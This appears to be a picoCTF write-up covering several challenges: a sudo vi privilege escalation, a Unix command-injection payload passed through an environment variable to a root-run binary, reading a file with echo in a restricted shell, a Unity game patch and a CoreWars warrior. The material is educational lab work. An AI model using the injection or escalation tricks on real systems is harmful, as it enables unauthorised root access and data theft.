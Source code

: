 # Binary Exploitation
## Hijacking - 200pts 

###### Description
>Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Additional details will be available after launching your challenge instance.

the user we are given is in the sudoers file, but he cannot execute most of the programs, except for the vi editor somehow (dunno if it was made on purpose), so you could do `sudo vi /challenge` and select the right file within vi's integrated file browser in order to get the flag

## VNE - 200pts

###### Description
>We've got a binary that can list directories as root, try it out !!

Additional details will be available after launching your challenge instance.
it's a binary that executes ls + the content of an environment variable without sanitizing it so you can just put your payload as is in the environment variable :

```sh
ctf-player@pico-chall$ export SECRET_DIR="-l /challenge/metadata.json | cat /challenge/metadata.json" && ./bin 
Listing the content of -l /challenge/metadata.json | cat /challenge/metadata.json as root: 
{"flag": "picoCTF{flag}", "password": "8a707622"}
```

---
# General skills

## Specialer - 400pts

###### Description
>Reception of Special has been cool to say the least. That's why we made an exclusive version of Special, called Secure Comprehensive Interface for Affecting Linux Empirically Rad, or just 'Specialer'. With Specialer, we really tried to remove the distractions from using a shell. Yes, we took out spell checker because of everybody's complaining. But we think you will be excited about our new, reduced feature set for keeping you focused on what needs it the most. Please start an instance to test your very own copy of Specialer.
Additional details will be available after launching your challenge instance.


I pressed tab to get the available commands autocompletions and got this :

```sh
Specialer$ 
!          bind       compopt    elif       fc         if         printf     shift      true       while
./         break      continue   else       fg         in         pushd      shopt      type       {
:          builtin    coproc     enable     fi         jobs       pwd        source     typeset    }
[          caller     declare    esac       for        kill       read       suspend    ulimit     
[[         case       dirs       eval       function   let        readarray  test       umask      
]]         cd         disown     exec       getopts    local      readonly   then       unalias    
alias      command    do         exit       hash       logout     return     time       unset      
bash       compgen    done       export     help       mapfile    select     times      until      
bg         complete   echo       false      history    popd       set        trap       wait   
```

there were not much useful commands, but I recalled that you could print files using echo as following :
`Specialer$ echo "$(<ala/kazam.txt)"`
result : `return 0 picoCTF{flag}`

---
# Reverse-Engineering

## No way out - 200pts

###### Description
>Put this flag in standard picoCTF format before submitting. If the flag was `h1_1m_7h3_f14g` submit `picoCTF{h1_1m_7h3_f14g}` to the platform. [Windows game](https://artifacts.picoctf.net/c/285/win.zip), [Mac game](https://artifacts.picoctf.net/c/285/mac.app.zip)


This is a unity game, so the language here is C#. I used dnspy to edit the Unity Assembler dll.
The goal is to reach the flag located behind the walls so my first thought was to disable walls collision but didnt succeed, so as a second attempt I decided I could modify the jump value to jump higher than the walls and reach the flag, it worked.
```C#
if(Input.GetButton("Jump") && this.canMove && this.characterController.isGrounded && !this.isClimbing)
{
    this.moveDirection.y = 50f;
}
```

as soon as you reach the giant flag in-game, a prompt with the flag appears

## Ready gladiator 2 - 400pts

###### Description
>Can you make a CoreWars warrior that wins every single round?
Additional details will be available after launching your challenge instance.


During this challenge I discovered some kind of neat hobby (a game actually) that revolves around an assembler-like language, the goal is to build your "warrior" from redcode instructions in order to beat your opponent.

We are presented with an redcode "imp", the simplest codewars warrior yet so hard to beat. After some researches, I found that there is a type of warrior that can beat it, the **gate**. There are many examples available there http://moscova.inria.fr/~doligez/corewar/by-types/idx.htm.
```asm
➜  picoctf nc saturn.picoctf.net 65511 < test.s
Warrior1:
;gate
;name gate
;author ligma
;assert 1
jmp     0,      <-69
end

Rounds: 100
Warrior 1 wins: 100
Warrior 2 wins: 0
Ties: 0
You did it!
picoCTF{flag}
```

the imp in question
```asm
;redcode
;name Imp Ex
;assert 1
mov 0, 1
end
```
